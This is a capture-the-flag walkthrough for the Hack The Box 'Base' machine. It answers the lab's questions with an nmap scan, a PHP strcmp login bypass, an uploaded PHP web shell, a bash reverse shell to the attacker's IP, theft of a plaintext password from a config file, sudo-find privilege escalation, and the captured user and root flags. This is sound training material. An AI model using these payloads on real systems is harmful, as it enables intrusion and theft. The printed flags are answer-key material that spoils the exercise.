




# Base

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Which two TCP ports are open on the remote host?

```sh
$ nmap -A -T4 10.129.200.183
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 17:52 CET
Nmap scan report for 10.129.200.183
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.79 seconds
```

> 22,80

#### 2. What is the relative path on the webserver for the login page?

> /login/login.php

#### 3. How many files are present in the '/login' directory?

Let's open `http://10.129.200.183/login/`:



> 3

#### 4. What is the file extension of a swap file?

> .swp

#### 5. Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?

From `login.php.swp`:

```php
if (strcmp($password, $_POST['password']) == 0) ...
``` 

Read about how to bypass it [here](https://rst.hashnode.dev/bypassing-php-strcmp).

We need to change our request from `username=&password=` to `username[]=&password[]=`.

> strcmp()

#### 6. In which directory are the uploaded files stored?

> /_uploaded

#### 7. Which user exists on the remote host with a home directory?

Let's create `shell.php` and upload it:

```php
<?php echo system($_REQUEST['cmd']);?>
```



Once we upload, we get the message, that our file was uploaded, so let's visit it in `_uploaded` directory:



So we can execute commands, like this `http://10.129.200.183/_uploaded/shell.php?cmd=whoami`.

Let's get reverse shell now:

First intercept the request with burp and change the request method to`POST`.

Then send the listener:

```sh
$ nc -l 9001
```

Once we send the request with our payload `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.15/9001 0>&1'` we get the reverse shell:



```sh
$ nc -l 9001
bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$ cat /etc/passwd
...
john:x:1000:1000:John:/home/john:/bin/bash
```

> john

#### 8. What is the password for the user present on the system?

```sh
www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

> thisisagoodpassword

*(We can now connect with ssh with `john:thisisagoodpassword`)*

#### 9. What is the full path to the command that the user john can run as user root on the remote host?

```sh
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

> /usr/bin/find

#### 10. What action can the find command use to execute commands?

More about it on [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

> exec

#### Submit user flag

```sh
john@base:~$ cat /home/john/user.txt
f54846c258f3b4612f78a819573d158e
```

#### Submit root flag

```sh
john@base:~$ sudo find . -exec /bin/sh \; -quit
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
51709519ea18ab37dd6fc58096bea949
```

## Final Flag

> `user`: f54846c258f3b4612f78a819573d158e
> `root`: 51709519ea18ab37dd6fc58096bea949

*Created by [bu19akov](https://github.com/bu19akov)*